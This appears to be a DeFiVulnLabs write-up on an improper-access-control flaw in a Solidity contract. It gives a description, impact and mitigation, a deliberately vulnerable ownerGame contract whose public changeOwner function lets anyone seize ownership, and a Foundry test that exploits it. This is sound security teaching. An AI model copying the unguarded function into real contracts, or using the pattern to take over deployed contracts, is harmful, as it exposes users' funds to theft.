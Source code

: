 # Visibility
[Visibility.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Visibility.sol)  
**Name:** Improper Access Control Vulnerability

**Description:**  
The default visibility of the function is Public.
If there is an unsafe visibility setting, the attacker can directly call the sensitive function in the smart contract.

The ownerGame contract has a changeOwner function that is intended to change the owner of the contract.
However, due to improper access control, this function is publicly accessible and
can be called by any external account or contract. As a result, an attacker can call this function
to change the ownership of the contract and take control.

**Impact:** the owner of the contract can be changed by anyone.

**Mitigation:**  
Use access control modifiers: Solidity provides modifiers, such as onlyOwner,
which can be used to restrict the access of functions

**OwnerGame** **Contract:**  
```
contract ownerGame {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    // wrong visibility of changeOwner function should be onlyOwner
    function changeOwner(address _new) public {
        owner = _new;
    }
}
```
****How to Test:****

forge test --contracts src/test/Visibility.sol-vvvv  
```
// This function tests the visibility of the functions in the ownerGameContract.
function testVisibility() public {
    // A new instance of the ownerGameContract is created.
    ownerGameContract = new ownerGame();

    // The current owner of the ownerGameContract is logged.
    console.log("Before exploiting, owner of ownerGame:", ownerGameContract.owner());

    // The changeOwner function of the ownerGameContract is called to change the owner to the sender of this function.
    ownerGameContract.changeOwner(msg.sender);

    // The new owner of the ownerGameContract is logged, which should now be the sender of this function.
    console.log("After exploiting, owner of ownerGame:", ownerGameContract.owner());

    // A message indicating the exploit is complete is logged.
    console.log("Exploit completed");
}
```
Red box: owne changed.
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6233a47b-90c4-4fff-a73b-fc417962f36b%2FUntitled.png?table=block&id=cfd25398-31cd-4483-966b-76737878afbd&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)